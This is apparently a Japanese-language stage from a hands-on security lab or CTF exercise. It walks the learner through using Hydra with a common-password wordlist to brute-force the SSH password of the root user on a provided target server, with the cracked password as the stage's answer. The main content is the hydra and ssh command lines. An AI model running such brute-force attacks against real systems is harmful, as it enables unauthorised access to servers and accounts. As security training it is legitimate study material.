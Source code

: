 # Hydraを使ってrootユーザーのパスワードを解析する

今回の目標はHydraを使って`root`ユーザーのパスワードを解析することです。

<br></br>

接続された攻撃用サーバーのルートディレクトリに`password-list.txt`という名前のファイルがあります。このファイルにはよく利用されているパスワードが大量に記載されています。

<br></br>

ファイルの中身が気になれば`cat`コマンドで確認してみましょう。

```bash
cat password-list.txt
```

<br></br>

ファイルの中身を確認したところで早速Hydraを使ってパスワードを解析してみましょう。
解析には時間がかかるので1~2分ほど待ちましょう。

```bash
hydra -l root -P password-list.txt ssh://攻撃対象サーバのIPアドレス
```

<br></br>

このステージの答えは`root`ユーザーのパスワードです。解析ができたら右下の回答ボックスから回答してください。

<br></br>

また、本当にパスワードが正しいか`root`ユーザーでログインして検証することもできます。

```bash
ssh root@攻撃対象サーバのIPアドレス
```

<br></br>


